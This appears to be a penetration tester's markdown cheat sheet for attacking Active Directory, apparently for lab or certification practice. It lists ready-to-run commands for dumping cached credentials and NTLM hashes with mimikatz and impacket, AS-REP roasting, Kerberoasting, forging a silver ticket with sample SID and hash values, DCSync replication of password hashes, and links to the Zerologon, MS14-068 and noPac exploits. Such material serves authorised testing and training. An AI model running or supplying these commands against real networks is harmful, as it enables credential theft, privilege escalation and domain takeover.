



# ⚔️ AD Exploitation

## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## AS-REP Roasting



!!! info
    🐈‍⬛ Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers -dc-ip <ip> -request <domain>/<user>:<password>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting



!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /nowrap
```

## Silver Ticket



Three pieces of info are needed:

- SPN password hash
- Domain SID
- Target SPN

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>

# linux
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)
